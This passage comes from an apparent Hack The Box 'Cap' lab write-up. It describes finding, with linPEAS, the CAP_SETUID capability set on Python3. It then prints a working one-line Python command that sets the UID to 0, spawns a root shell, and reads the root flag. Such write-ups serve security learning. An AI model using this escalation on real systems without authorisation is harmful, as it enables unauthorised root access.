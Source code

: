 After starting the linPEAS script I watch closely the screen to see what's found and where I can look into during the execution of the script.

![Image](/assets/img/WriteUp/HTB/CAP/HTB-CAP-Capabilities.png){: width="700" height="400" }


As linPEAS mentioned a website below the results and I had no idea of the existence of this vulnerability, I had to read this website: https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

In the results, I saw the CAP_SETUID was present for Python3. This allows you to change the UID (set UID of root in your process).

## Privilege escalation
Since Python3 is vulnerable for privilege escalation via the linux capabilities I should try to escalate the privileges. Because of this vulnerability we can set the uid to 0 for root permissions and load the /bin/sh process via Python3.
```bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id;whoami
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root
# cd /root
# ls
root.txt  snap
# cat root.txt  
#### SNIP THE ROOT FLAG ####
# 
```

Yes, the root flag is captured!